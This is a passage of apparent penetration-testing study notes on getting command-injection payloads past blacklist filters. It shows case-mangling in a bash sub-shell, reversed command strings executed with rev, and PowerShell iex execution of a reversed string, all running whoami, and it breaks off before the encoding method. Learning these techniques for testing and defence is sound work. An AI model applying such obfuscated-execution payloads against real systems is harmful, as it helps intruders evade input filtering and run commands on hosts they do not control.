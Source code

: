 there are many other commands to do similar things like: 

`$(a="WhOaMi";printf %s "${a,,}")`

![](Images/Pasted%20image%2020240202144301.png)

### Reversed commands 

another technique is to reverse commands and have a command template that switches them back and executes them in real time   
in this case we will be writing `imaohw` to avoid triggering the blacklisted command 

we can reverse a string in linux with: 

`echo 'whoami' | rev`

once we have our reversed string we can execute the original command by reversing it back in a sub-shell: 

`$(rev<<<'imaohw')`

![](Images/Pasted%20image%2020240202182807.png)

in windows we can reverse a string with: 

`"whoami"[-1..-20] -join ''`

then we can execute the reversed string in a powershell sub-shell: 

`iex "$('imaohw'[-1..-20] -join '')"`

### Encoded commands 

some commands may contain filtered characters or characters that are URL-decoded by the server

we can use various encoding tools like base64 or xxd 

first we can encode our payload:
